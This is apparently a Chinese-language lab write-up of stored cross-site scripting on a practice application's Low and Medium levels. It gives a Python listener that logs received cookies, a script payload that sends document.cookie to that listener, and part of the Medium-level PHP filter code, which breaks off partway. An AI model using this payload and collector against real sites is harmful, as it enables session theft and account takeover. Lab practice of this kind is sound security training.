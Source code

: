 

======

---
## XSS(Stored)
### Low

```python
from http.server import HTTPServer, BaseHTTPRequestHandler
from urllib.parse import urlparse, parse_qs
import json
class RequestHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        parsed_path = urlparse(self.path)
        query_params = parse_qs(parsed_path.query)
        query_params = parse_qs(parsed_path.query)
         # 打印请求信息到控制台
        # print(f"\n[请求路径] {parsed_path.path}")
        # print(f"[查询参数] {json.dumps(query_params, indent=2)}")
        if "cookie" in query_params:
            print(f"已收集到cookie")
            print(f"[Cookie] {query_params['cookie'][0]}"+"\n")
        # print("[请求头]")
        # for header, value in self.headers.items():
        #     print(f"  {header}: {value}")
            # 发送响应
        self.send_response(200)
        self.send_header('Content-Type', 'text/html')
        self.send_header('Content-Length', '0')
        self.end_headers()
if __name__ == '__main__':
    server_address = ('', 7989)
    httpd = HTTPServer(server_address, RequestHandler)
    print("服务器已启动，监听端口 7989...")
    httpd.serve_forever()
```


写了一个简单的发送脚本
```javascript
<script>   var url = 'http://127.0.0.1:7989?cookie=' + encodeURIComponent(document.cookie);   var xhr = new XMLHttpRequest();   xhr.open('GET', url, true);   xhr.send(); </script>
```

![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250317221248.png)

---
### Medium
```php
<?php

if( isset( $_POST[ 'btnSign' ] ) ) {
    // Get input
    $message = trim( $_POST[ 'mtxMessage' ] );
    $name    = trim( $_POST[ 'txtName' ] );

    // Sanitize message input
    $message = strip_tags( addslashes( $message ) );
    $message = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $message ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
    $message = htmlspecialchars( $message );

    // Sanitize name input
```